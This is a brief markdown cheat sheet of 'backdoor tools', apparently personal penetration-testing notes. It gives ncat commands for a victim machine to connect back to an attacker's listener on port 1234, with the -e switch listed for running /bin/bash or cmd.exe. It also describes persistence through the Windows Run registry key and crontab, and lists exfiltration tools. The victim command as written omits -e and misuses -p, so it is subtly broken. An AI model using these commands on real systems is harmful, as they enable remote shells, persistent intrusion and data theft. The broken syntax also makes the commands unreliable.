 # Backdoor tools

## Netcat, ncat, nc

* Ncat
    Switches

    * -l Listening
    * -e, --exec Execute command (E.g, /bin/bash, cmd.exe)
    * -p Port
    * -v Verbose
    * -n Do not resolve hostname via DNS (Numbers only)

Victim Computer
```
$ncat -nv HOST -p 1234
```

Attacker Computer
```
$ncat -lnvp 1234
```


## Install Persistant Backdoor

Windows Registery

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Add string Values
```

Linux Cron

```
Add the command in Crontab
```

--------------------------------------------

## Exfiltration Tecnhiques and Tools

* PacketWhisper.py
* Netcat file redirection
* Scp (Secure copy)
* Simple_http_server.py (Python module)

